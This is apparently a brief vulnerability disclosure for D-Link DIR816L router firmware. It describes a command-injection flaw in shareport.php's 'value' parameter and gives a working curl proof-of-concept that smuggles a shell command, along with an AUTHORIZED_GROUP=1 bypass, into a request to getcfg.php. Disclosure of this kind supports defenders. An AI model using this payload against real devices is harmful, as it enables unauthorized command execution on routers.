 Remote Code Execution

Dir816L firmware version:DIR816L_FW206b01.bin

Description:

DIR816L_FW206b01 shareport.php has an issue that attackers can use it to execute command via "value" parameter.

you may download it from : https://tsd.dlink.com.tw/ddgo
![](./img/0.png)

Source code:

As you can see there is not enough filter with paramter "value",it just passed to function  set which execute command directly.
![](./img/4.png)

payload:

```
curl http://192.168.0.1:80/getcfg.php -d 
"action=sethostname&value=%26%20ls%20-la%20%26%0aAUTHORIZED_GROUP=1"
```

